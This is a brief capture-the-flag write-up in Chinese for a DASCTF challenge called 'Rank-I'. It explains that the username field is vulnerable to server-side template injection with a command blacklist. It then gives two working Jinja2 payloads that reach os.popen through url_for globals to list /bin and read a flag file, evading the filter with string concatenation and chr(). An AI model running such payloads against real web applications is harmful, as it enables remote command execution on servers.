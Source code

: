 # [DASCTF] Rank-I
![](<./img/Pasted image 20250118114936.png>)

用户名这里SSTI
黑名单东西不少，藏flag，删了cat这些，ls看还有个more能用

```python
{{ url_for.__globals__['__builtins__']['eval']('" ".join(__import__("os").popen("ls " + chr(47) + "bin").read().split(chr(10)))') }}

{{ url_for.__globals__['__builtins__']['eval']('" ".join(__import__("os").popen("mo" + "re " + chr(47) + "fla" + "gf149").read().split(chr(10)))') }}
```